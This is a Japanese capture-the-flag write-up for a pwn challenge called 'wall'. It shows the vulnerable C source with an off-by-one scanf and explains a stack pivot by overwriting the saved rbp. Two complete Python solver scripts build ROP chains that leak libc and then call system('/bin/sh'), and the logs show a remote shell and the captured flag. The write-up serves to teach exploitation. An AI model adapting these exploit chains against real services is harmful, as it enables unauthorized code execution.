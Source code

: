 # wall:Pwn:200pts
You've got a message.  

[wall.tar.gz](wall.tar.gz)  

`nc 34.170.146.252 40015`  

# Solution
ファイル一式と接続先が渡される。  
ソースは以下である。  
```c
#include <stdio.h>
#include <stdlib.h>

char message[4096];

void get_name(void) {
  char name[128];
  printf("What is your name? ");
  scanf("%128[^\n]%*c", name);
  printf("Message from %s: \"%s\"\n", name, message);
}

int main(int argc, char **argv) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);

  printf("Message: ");
  scanf("%4096[^\n]%*c", message);
  get_name();
  return 0;
}
```
二つの`scanf`の箇所でoff-by-oneがある。  
`rbp`の末尾1バイトを書き換えてスタックを上へずらしてやり、そこに配置した確率的なropへ持ち込む。  
`rbp壊したら、leaveとretを二回呼べ`とPwn有識者から教えられているため`get_name`の方を利用する。
libc.so.6が配布されていることからもわかる通り、まずはlibcをリークしなければならない。  
スタックのアライメントに注意し、`ret`を調整しながら`printf`でリークを行う。  
```python
from ptrlib import *

elf = ELF("./wall")

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# libc = ELF("./libc.so.6")

sock = Process("./wall")
# sock = Socket("nc 34.170.146.252 40015")
sock.debug = True

payload = b"SATOKI"
sock.sendlineafter("Message: ", payload)

payload = p64(next(elf.gadget("ret;"))) * 12
payload += p64(elf.plt("printf"))
payload += p64(next(elf.gadget("ret;")))
payload += p64(elf.symbol("main"))
payload += b"A" * (128 - len(payload))
sock.sendlineafter("What is your name? ", payload)

sock.recvline()

logger.info(f"leak = {hex(u64(sock.recvuntil('M', drop=True, lookahead=True)))}")
```
実行する。  
```bash
$ python solver.py
[+] __init__: Successfully created new process './wall' (PID=42535)
[+] recv: Received 0x9 (9) bytes:
    00000000  4d 65 73 73 61 67 65 3a  20                       |Message: |
[+] send: Sent 0x7 (7) bytes:
00000000  53 41 54 4f 4b 49 0a                              |SATOKI.|
[+] recv: Received 0x13 (19) bytes:
    00000000  57 68 61 74 20 69 73 20  79 6f 75 72 20 6e 61 6d  |What is your nam|
    00000010  65 3f 20                                          |e? |
[+] send: Sent 0x81 (129) bytes:
00000000  1a 10 40 00 00 00 00 00  1a 10 40 00 00 00 00 00  |..@.......@.....|
00000010  1a 10 40 00 00 00 00 00  1a 10 40 00 00 00 00 00  |..@.......@.....|
*
00000060  74 10 40 00 00 00 00 00  1a 10 40 00 00 00 00 00  |t.@.......@.....|
00000070  d6 11 40 00 00 00 00 00  41 41 41 41 41 41 41 41  |..@.....AAAAAAAA|
00000080  0a                                                |.|
[+] recv: Received 0x2a (42) bytes:
    00000000  4d 65 73 73 61 67 65 20  66 72 6f 6d 20 1a 10 40  |Message from ..@|
    00000010  3a 20 22 53 41 54 4f 4b  49 22 0a 50 d0 ac 8a da  |: "SATOKI".P....|
    00000020  7f 4d 65 73 73 61 67 65  3a 20                    |.Message: |
[+] <module>: leak = 0x7fda8aacd050
[+] _close_impl: './wall' (PID=42535) killed by `close`
```
何度か試すと`funlockfile`がリークできたため、libcのベースが分かる。  
あとはもう一度同じくropを行い、libcの中の`system`を呼んでやればいい。  
以下のsolver.pyで行う。  
```python
from ptrlib import *

elf = ELF("./wall")

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc.so.6")

# sock = Process("./wall")
sock = Socket("nc 34.170.146.252 40015")
# sock.debug = True

payload = b"SATOKI"
sock.sendlineafter("Message: ", payload)

payload = p64(next(elf.gadget("ret;"))) * 12
payload += p64(elf.plt("printf"))
payload += p64(next(elf.gadget("ret;")))
payload += p64(elf.symbol("main"))
payload += b"A" * (128 - len(payload))
sock.sendlineafter("What is your name? ", payload)

sock.recvline()
libc.base = u64(sock.recvuntil("M", drop=True, lookahead=True)) - libc.symbol(
    "funlockfile"
)

payload = b"TSUJI"
sock.sendlineafter("Message: ", payload)

payload = p64(next(elf.gadget("ret;"))) * 12
payload += p64(next(libc.gadget("pop rdi; ret;")))
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.symbol("system"))
payload += b"B" * (128 - len(payload))
sock.sendlineafter("What is your name? ", payload)

sock.sh()
```
実行する。  
```bash
$ python solver.py
[+] __init__: Successfully connected to 34.170.146.252:40015
[+] base: New base address: 0x7f28ee7a9000
[ptrlib]$ Message from ␦@: "TSUJI"
[ptrlib]$ ls
bin
boot
dev
etc
flag-6d5a5cb38e69f72e74235bf99e6f1e9b.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[ptrlib]$ cat flag-6d5a5cb38e69f72e74235bf99e6f1e9b.txt
Alpaca{p1v0T1ng_t0_Bss_i5_tR1cKy_du3_7o_st4Ck_s1Z3_Lim17}
```
何度か実行するとシェルが得られ、ファイルにflagが書かれていた。  

## Alpaca{p1v0T1ng_t0_Bss_i5_tR1cKy_du3_7o_st4Ck_s1Z3_Lim17}